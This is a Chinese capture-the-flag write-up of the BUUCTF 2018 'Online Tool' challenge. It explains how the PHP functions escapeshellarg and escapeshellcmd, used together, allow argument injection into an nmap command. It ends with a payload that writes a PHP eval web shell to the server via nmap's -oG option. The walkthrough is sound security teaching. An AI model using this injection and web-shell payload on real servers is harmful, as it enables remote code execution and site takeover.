


# [BUUCTF 2018]Online Tool

## 知识点

`php代码审计`

`escapeshellarg`

`escapeshellcmd`

## 解题

`HTTP_X_FORWARDED_FOR`和`REMOTE_ADDR`都是服务器用来获取`ip`用的，在本题没什么用。下面的代码才是重点。我们需要`host`传参，再经过下面两个函数的处理，最后拼接字符串执行`system`系统函数。`mkdir`函数创建新目录。

现在我们面临的有两个难题，第一个是`escapeshellarg()`和`escapeshellcmd()`函数的绕过，第二个是如何构造命令执行`payload`。

### 函数的绕过

回看上面的代码，如果没有那两个函数的处理，这题就变得简单多了，我们可以执行多参数命令，用`||`或者`;`将前面分割，后面写入我们想要执行的命令。而`escapeshellcmd()`就是阻止多参数命令执行的，因为一整个传参的内容都被当做一串字符串了。虽然命令语句只能执行一个，但是可以指定不同参数，比如

```php
$username = 'myuser1 myuser2';
system('groups '.$username);
=>
//myuser1 : myuser1 adm cdrom sudo
//myuser2 : myuser2 adm cdrom sudo
```

但是在escapeshellarg()函数处理后，就会被当做一个参数来执行命令了。（相关文章：[利用/绕过 PHP escapeshellarg/escapeshellcmd函数 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/107336)）

但它们组合使用时就会造成漏洞，就借用一个大佬的例子，通俗易懂。

```cobol
传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
```

（相关文章链接：[PHP escapeshellarg()+escapeshellcmd() 之殇 (seebug.org)](https://paper.seebug.org/164/)）

也就是说，escapeshellcmd()函数转义了用于转义单引号的斜杠，导致这个单引号与后面的单引号形成了空白连接符就能执行命令了。

### `nmap`构造命令

`system`函数里拼接了`nmap`的指令字符串。`nmap`中的`-oG`参数可以将代码与命令写到文件中，比如`nmap <?php phpinfo();?> -oG 1.php`，就是将这个`phpinfo();`语句写在了`1.php`里内了。

### 构造`payload`

`payload`构造如下

最后需要有`空格`

```php
?host='<?php eval($_POST[1]);?> -oG 1.php '
```



写入木马



[参考文章](https://blog.csdn.net/m0_62422842/article/details/125451022)